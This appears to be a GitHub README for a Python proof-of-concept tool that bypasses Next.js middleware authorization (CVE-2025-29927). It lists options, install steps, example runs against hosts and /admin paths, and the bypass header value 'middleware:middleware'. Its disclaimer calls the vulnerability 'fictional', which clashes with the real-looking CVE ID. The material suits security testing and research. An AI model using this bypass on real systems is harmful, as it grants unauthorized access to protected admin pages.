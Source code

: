 PoC for Next.js Middleware Bypass (CVE-2025-29927)

⚠️ DisclaimerThis is a proof-of-concept for a fictional vulnerability. Intended for educational and research purposes only. Use responsibly in authorized environments.

🚀 Features

Feature

Description

✨ Color & Verbose

Color-coded output; -v for detailed debug logs.

📦 OOP Structure

Clean, class-based design for maintainability.

🌐 Proxy Support

Route through HTTP(S) proxies (Burp/ZAP) via --proxy.

🍪 Session Handling

Persistent requests.Session for cookies & connection reuse.

🚦 Redirect Control

No-follow-redirect by default; clearly distinguish pass/fail.

🛠 Custom Headers

Override User-Agent, x-middleware-subrequest, or add arbitrary headers.

🛠 Installation

Clone this repository:

git clone https://github.com/your-username/nextjs-middleware-poc.git
cd nextjs-middleware-poc

(Optional) Create & activate a virtual environment:

python3 -m venv .venv
source .venv/bin/activate

Install dependencies:

pip install -r requirements.txt

Requires Python 3.7+

📋 Usage

python poc.py [options] <host>[:port]

Option

Description

-h, --help

Show help message.

-p PATH, --path PATH

Protected route to request (default: /admin).

-s {http,https}, --scheme

Protocol to use (default: http).

--header HEADER

Value for x-middleware-subrequest header (default: middleware:middleware).

-ua USER_AGENT, --user-agent

Custom User-Agent (default: Mozilla/5.0).

--proxy PROXY

HTTP(S) proxy URL (e.g., http://127.0.0.1:8080).

-v, --verbose

Enable debug output for each step.

🔍 Examples

1. Basic test

python poc.py localhost:3000

2. HTTPS & custom path

python poc.py example.com -s https -p /dashboard

3. With proxy & verbose

python poc.py internal-app:8080 --proxy http://127.0.0.1:8080 -v

✅ Expected Output

Success:

[*] Target URL: http://localhost:3000/admin
[+] SUCCESS: Middleware bypassed — access granted!
--- Response Snippet ---
<!DOCTYPE html><html>…<title>Admin Panel</title>…
------------------------

Failure:

[*] Target URL: http://localhost:3000/admin
[-] FAIL: Access denied by middleware (302 Redirect)
